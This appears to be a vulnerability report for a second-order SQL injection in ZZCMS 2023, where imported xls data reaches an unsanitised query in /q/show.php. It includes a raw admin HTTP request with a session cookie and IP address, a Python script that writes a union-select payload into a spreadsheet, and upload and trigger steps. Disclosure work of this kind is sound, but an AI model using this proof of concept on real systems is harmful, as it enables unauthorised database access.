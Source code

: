 ## Description of the vulnerability

ZZCMS 2023 was discovered to contain a SQL injection vulnerability in /q/show.php

## version

2023 (fully open source)

Last updated 2022-11-10

## analyse

In admin/dl_data_add.php,line:28, the contents of the xls file will be stored in the database, 

<img src=".\img\3.png">

 in q/show.php, line:32-34,39,154,the database contents will be retrieved and concatenated with an SQL statement for querying, leading to an injection.

<img src=".\img\4.png">

<img src=".\img\5.png">

## Repetition

1.First, log in to the admin account in the backend, and grant the account permission to import files.

```http
POST /admin/admingroup.php?do=save HTTP/1.1
Host: 
Content-Length: 1996
Cache-Control: max-age=0
Origin: http://149.104.27.102
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://149.104.27.102/admin/admingroup.php?do=modify&id=1
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: tablename=zzcms_tagzs; PHPSESSID=itqont0dtdgergum8jrf343v57; __51cke__=; __tins__713776=%7B%22sid%22%3A%201730786337232%2C%20%22vd%22%3A%2013%2C%20%22expires%22%3A%201730789563438%7D; __51laig__=13
Connection: close

groupname=%E8%B6%85%E7%BA%A7%E7%AE%A1%E7%90%86%E5%91%98&config%5B%5D=zs&config%5B%5D=zs_modify&config%5B%5D=zs_del&config%5B%5D=zsclass&config%5B%5D=zskeyword&config%5B%5D=dl&config%5B%5D=dl_add&config%5B%5D=dl_modify&config%5B%5D=dl_del&config%5B%5D=dl_import&config%5B%5D=guestbook&config%5B%5D=zhanhui&config%5B%5D=zhanhui_add&config%5B%5D=zhanhui_modify&config%5B%5D=zhanhui_del&config%5B%5D=zhanhuiclass&config%5B%5D=zx&config%5B%5D=zx_add&config%5B%5D=zx_modify&config%5B%5D=zx_del&config%5B%5D=zxclass&config%5B%5D=zxpinglun&config%5B%5D=zxtag&config%5B%5D=pp&config%5B%5D=pp_modify&config%5B%5D=pp_del&config%5B%5D=job&config%5B%5D=job_modify&config%5B%5D=job_del&config%5B%5D=jobclass&config%5B%5D=special&config%5B%5D=special_add&config%5B%5D=special_modify&config%5B%5D=special_del&config%5B%5D=specialclass&config%5B%5D=wangkan&config%5B%5D=wangkan_add&config%5B%5D=wangkan_modify&config%5B%5D=wangkan_del&config%5B%5D=wangkanclass&config%5B%5D=baojia&config%5B%5D=baojia_modify&config%5B%5D=baojia_del&config%5B%5D=ask&config%5B%5D=ask_add&config%5B%5D=ask_modify&config%5B%5D=ask_del&config%5B%5D=askclass&config%5B%5D=adv&config%5B%5D=adv_add&config%5B%5D=adv_modify&config%5B%5D=adv_del&config%5B%5D=advclass&config%5B%5D=adv_user&config%5B%5D=user&config%5B%5D=user_modify&config%5B%5D=user_del&config%5B%5D=usernoreg&config%5B%5D=userclass&config%5B%5D=usergroup&config%5B%5D=friendlink&config%5B%5D=friendlink_add&config%5B%5D=friendlink_modify&config%5B%5D=friendlink_del&config%5B%5D=about&config%5B%5D=about_add&config%5B%5D=about_modify&config%5B%5D=about_del&config%5B%5D=label&config%5B%5D=label_add&config%5B%5D=label_modify&config%5B%5D=label_del&config%5B%5D=licence&config%5B%5D=fankui&config%5B%5D=badusermessage&config%5B%5D=uploadfiles&config%5B%5D=sendmessage&config%5B%5D=sendmail&config%5B%5D=sendsms&config%5B%5D=announcement&config%5B%5D=helps&config%5B%5D=siteconfig&config%5B%5D=adminmanage&config%5B%5D=admingroup&id=1&action=modify&Save=%E4%BF%AE%E6%94%B9
```

2.Create an xls file, insert the ID in the first column, and insert the SQL statement to be injected in the eighth column.

```python
import xlwt
workbook = xlwt.Workbook()
sheet = workbook.add_sheet("Sheet1")
sheet.write(0,0,1)
sheet.write(0,1,"hello")
sheet.write(0,2,"13612345678")
sheet.write(0,3,"123@qq.com")
sheet.write(0,4,"title")
sheet.write(0,5,"beijing")
sheet.write(0,6,"hahaha")
sheet.write(0,7,"\\\' union select 1,2231312,3#")
workbook.save("2.xls")

```

3.Go to /admin/dl_data.php, then click "Select File" (choose the xls file you just created), upload it, and import it into the database.

<img src=".\img\1.png">  



4.go to /q/show.php?id=1(The value of id corresponds to the first column in the xls file.)

<img src=".\img\2.png">